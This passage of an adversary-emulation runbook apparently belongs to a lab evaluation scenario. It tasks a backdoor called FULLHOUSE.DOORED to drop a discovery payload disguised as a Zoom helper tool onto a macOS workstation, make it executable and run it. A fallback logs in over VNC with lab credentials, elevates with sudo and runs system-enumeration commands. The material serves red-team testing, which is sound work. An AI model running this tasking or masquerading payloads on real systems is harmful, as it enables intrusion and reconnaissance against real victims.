 * Task FULLHOUSE.DOORED to download discovery program to `hogshead (10.55.4.50)`:

  ```bash
  ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 2, "payload": "macho_discovery", "arg":"/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-discovery"}'
  ```

* Task FULLHOUSE.DOORED to add executable permissions to the discovery executable:

  ```bash
  ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": " chmod +x /Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-discovery"}'
  ```

* Task FULLHOUSE.DOORED to execute the discovery program on `hogshead (10.55.4.50)`:

  ```bash
  ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 1, "arg": "/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-discovery"}'
  ```

* If FULLHOUSE.DOORED **is not** available:
  * :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate a
  VNC session to the macOS victim workstation `hogshead (10.55.4.50)` as
  `encryptpotter.net\ranrok`.

    | VNC server | Password |
    | -------- | -------- |
    | 10.55.4.50::5900 | test1234 |

  * At the macOS login screen, authenticate with the following credentials:

    | Username | Password |
    | -------- | -------- |
    | ranrok | Ladylike-Laugh |

  * Open a Terminal and elevate to sudo, providing the following password when
  prompted:

      ```zsh
      sudo su
      ```

      | Password |
      | -------- |
      | Ladylike-Laugh |

  * Execute the following commands:

      ```zsh
      logname
      /usr/sbin/system_profiler SPHardwareDataType
      /usr/bin/sw_vers
      dscl . -list /Users | grep -v '^_'
      ```

:heavy_exclamation_mark: If the above procedure fails, proceed to [STRATOFEAR failed/unavailable to load Keychain module](./AlternativeSteps.md#STRATOFEAR-failedunavailable-to-load-Keychain-module)
